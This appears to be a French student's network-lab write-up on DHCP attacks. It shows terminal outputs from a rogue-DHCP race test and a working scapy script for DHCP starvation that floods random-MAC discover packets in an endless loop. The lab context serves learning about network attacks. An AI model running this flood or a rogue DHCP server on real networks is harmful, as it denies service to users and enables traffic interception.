 #### Test !
```
PC4> dhcp
DDORA IP 10.1.1.248/24 GW 10.1.1.50
```

```
PC4> show ip

NAME        : PC4[1]
IP/MASK     : 10.1.1.248/24
```

#### Now race !

```
PC2> dhcp
DDORA IP 10.1.1.246/24 GW 10.1.1.50
```
```
PC3> dhcp
DDORA IP 10.1.1.247/24 GW 10.1.1.50
```
```
PC4> dhcp
DORA IP 10.1.1.21/24 GW 10.1.1.1
```

2 à 1 pour le rogue DHCP

#### Wireshark !

[Race capture pcapng](race.pcapng)


Dans l'enregistrement le DHCP légitime gagne deux fois la course, puis c'est le rogue DHCP qui gagne.


## 5 DHCP starvation
Je vais utiliser ce script ~~copié~~ inspiré de cette vidéo : https://www.youtube.com/watch?v=VW0szfPHeo0&ab_channel=DavidBombal (j'en comprend chaque ligne).

```python
from scapy.all import *

conf.checkIPaddr = False

dhcp_discover = Ether(dst='ff:ff:ff:ff:ff:ff',src=RandMAC()) \
				/IP(src='0.0.0.0',dst='255.255.255.255') \
				/UDP(sport=68,dport=67) \
				/BOOTP(op=1,chaddr = RandMAC()) \
				/DHCP(options=[('message-type','discover'),('end')])

sendp(dhcp_discover,iface='wlp4s0',loop=1,verbose=1)
```
